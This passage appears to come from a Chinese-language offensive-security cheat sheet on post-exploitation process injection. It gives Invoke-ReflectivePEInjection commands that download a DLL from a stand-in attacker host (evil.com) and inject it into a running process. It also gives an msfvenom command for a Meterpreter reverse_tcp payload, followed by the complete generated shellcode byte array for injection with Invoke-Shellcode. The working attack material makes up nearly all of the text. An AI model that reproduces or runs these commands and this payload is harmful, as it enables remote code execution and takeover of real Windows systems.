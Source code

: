 **示例**
**下载dll并注入到id为1320的进程中**


```powershell
Invoke-ReflectivePEInjection -PEUrl http://evil.com/test.dll -ProcId 1320 
```
**强制使用ASLR**

```powershell
Invoke-ReflectivePEInjection -PEUrl http://evil.com/test.dll -ProcId 1320 -ForceASLR
```
**从本地加载dll并注入指定进程**

```powershell
Invoke-ReflectivePEInjection -PEPath test.dll
-ProcId 1320
```
**向exe传参**

```powershell
Invoke-ReflectivePEInjection -PEPath test.dll
-ProcId 1320 -ExeArgs "arg1 arg2"
```
#### Invoke-Shellcode
向目标进程注入shellcode
依然需要注意shellcode架构的问题

**示例**
**向powershell进程注入meterpreter**

**生成shellcode**

```powershell
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.1 lport=4444 -f powershell

No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of powershell file: 1625 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0x5,0x68,0xc0,0xa8,0x1,0x1,0x68,0x2,0x0,0x11,0x5c,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x61,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x22,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xe9,0x71,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc7,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5
```
